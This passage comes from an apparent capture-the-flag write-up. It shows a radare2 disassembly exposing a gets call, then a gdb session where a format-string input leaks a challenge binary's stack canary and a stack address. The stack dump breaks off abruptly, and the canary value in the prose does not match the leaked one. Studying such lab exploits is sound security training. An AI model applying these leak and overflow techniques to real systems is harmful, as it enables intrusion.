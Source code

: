 Here is a quick look of the function that asks for the response to the
addition:
{% highlight ca65 %}
$ r2 -A web_of_science
 -- Unk, unk, unk, unk
[0x004006e0]> pdf @0x40092b
[snip]
|      ||   0x00400921      488d8560ffff.  lea rax, qword [rbp - local_a0h]
|      ||   0x00400928      4889c7         mov rdi, rax
|      ||   0x0040092b      e870fdffff     call sym.imp.gets
[snip]
|       `-> 0x004009a1      4881c4380100.  add rsp, 0x138
|           0x004009a8      5b             pop rbx
|           0x004009a9      5d             pop rbp
\           0x004009aa      c3             ret
{% endhighlight %}

Instead of injecting 46 `%p`, I set the argument number in the format:
{% highlight shell-session %}
$ gdb -q web_of_science
Reading symbols from web_of_science...(no debugging symbols found)...done.
(gdb) b *0x40092b
Breakpoint 1 at 0x40092b
(gdb) r
Starting program: /home/abe/ctf/volga/pwn_web_of_science/web_of_science 
Tell me your name first
|%43$p|%46$p|
Alright, pass a little test first, would you.
57028 + 19889 = ?
|0x99bc45114f471300|0x7fffffffdce0|, your response:
Breakpoint 1, 0x000000000040092b in ?? ()
(gdb) i r
rax            0x7fffffffdc20	140737488346144
rbx            0x722072756f79202c	8223698768285474860
rcx            0x7ffff7b12c50	140737348971600
rdx            0x7ffff7dd5760	140737351866208
rsi            0x7fffffffb4f0	140737488336112
rdi            0x7fffffffdc20	140737488346144
[snip]
{% endhighlight %}

The address of the buffer here is `0x7fffffffdc20` (it might differ on your
system but this is not important). Note that the canary is equal to
`0x9ce2bb4ec57b1300` and the leaked stack address `0x7fffffffdce0`

Let's have look at the layout of the stack:
{% highlight shell-session %}
(gdb) i frame
Stack level 0, frame at 0x7fffffffdcd0:
 rip = 0x40092b; saved rip = 0x401015
 called by frame at 0x7fffffffdcf0
 Arglist at 0x7fffffffdb78, args: 
 Locals at 0x7fffffffdb78, Previous frame's sp is 0x7fffffffdcd0
 Saved registers:
  rbx at 0x7fffffffdcb8, rbp at 0x7fffffffdcc0, rip at 0x7fffffffdcc8
(gdb) x/42gx $rsp
0x7fffffffdb80:	0x0000000000000000	0x0000000a00000000
0x7fffffffdb90:	0x0000b1410000ba8f	0x0000000000016bd0
0x7fffffffdba0:	0x257c70243334257c	0x79202c7c70243634

[strfmt]: https://www.owasp.org/index.php/Format_string_attack
[callconv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[pwntools]: https://github.com/Gallopsled/pwntools